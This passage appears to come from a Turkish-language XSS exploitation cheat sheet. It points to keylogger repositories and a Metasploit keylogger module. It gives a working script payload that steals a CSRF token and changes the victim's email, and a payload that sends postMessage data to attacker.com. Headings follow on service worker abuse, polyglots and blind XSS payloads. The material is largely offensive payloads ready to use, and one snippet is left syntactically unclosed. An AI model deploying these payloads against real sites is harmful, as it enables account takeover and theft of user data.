 ### Keylogger

Sadece github'da arama yaparak birkaç farklı tane buldum:

* [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
* [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
* [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
* Ayrıca metasploit `http_javascript_keylogger` kullanabilirsiniz.

### CSRF tokenlarını çalmak
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/email/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
### PostMessage mesajlarını çalmak
```markup
<img src="https://attacker.com/?" id=message>
<script>
window.onmessage = function(e){
document.getElementById("message").src += "&"+e.data;
</script>
```
### Servis Çalışanlarını Kötüye Kullanma

{% content-ref url="abusing-service-workers.md" %}
[abusing-service-workers.md](abusing-service-workers.md)
{% endcontent-ref %}

### Gölge DOM'a Erişim

{% content-ref url="shadow-dom.md" %}
[shadow-dom.md](shadow-dom.md)
{% endcontent-ref %}

### Poliglotlar

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt" %}

### Kör XSS yükleri
